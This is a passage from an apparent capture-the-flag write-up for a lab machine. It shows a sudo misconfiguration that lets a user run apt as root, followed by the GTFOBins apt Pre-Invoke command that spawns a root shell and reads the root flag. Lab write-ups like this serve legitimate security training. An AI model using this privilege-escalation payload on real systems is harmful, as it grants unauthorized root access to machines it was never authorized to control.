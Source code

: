 ### Sudo privilege

Checking the `sudo` privileges, user `cobra` is allowed to run `apt` as `root`.

```console
cobra@thm-lamp:~$ sudo -l
Matching Defaults entries for cobra on thm-lamp:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User cobra may run the following commands on thm-lamp:
    (ALL) NOPASSWD: /usr/bin/apt
```

We can use the payload from [GTFOBins](https://gtfobins.github.io/gtfobins/apt/#sudo) to get a shell as root.

```console
cobra@thm-lamp:~$ sudo apt update -o APT::Update::Pre-Invoke::=/bin/sh
# id
uid=0(root) gid=0(root) groups=0(root)
```

And read the root flag.

```console
# wc -c root.txt
38 root.txt
```
